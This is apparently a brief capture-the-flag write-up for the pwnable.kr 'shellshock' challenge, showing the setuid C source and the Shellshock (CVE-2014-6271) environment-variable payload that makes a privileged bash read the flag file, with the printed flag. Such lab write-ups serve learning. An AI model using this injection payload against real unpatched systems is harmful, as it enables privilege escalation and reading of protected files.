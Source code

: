 ```yaml
---
layout: post
title: Pwnable rev shellshock
image: /assets/img/HTB-Logo.png
date:   2022-12-12 11:15:01
tags:
- rev
description: Basic rev challenge
categories:
- Pwnable
---
```


test for shellshock

env x='() { :;}; echo   ceva' ./bash -c  : 

shellshock@pwnable:~$ ls
bash  flag  shellshock  shellshock.c
shellshock@pwnable:~$ cat shellshock.c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}


shellshock@pwnable:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
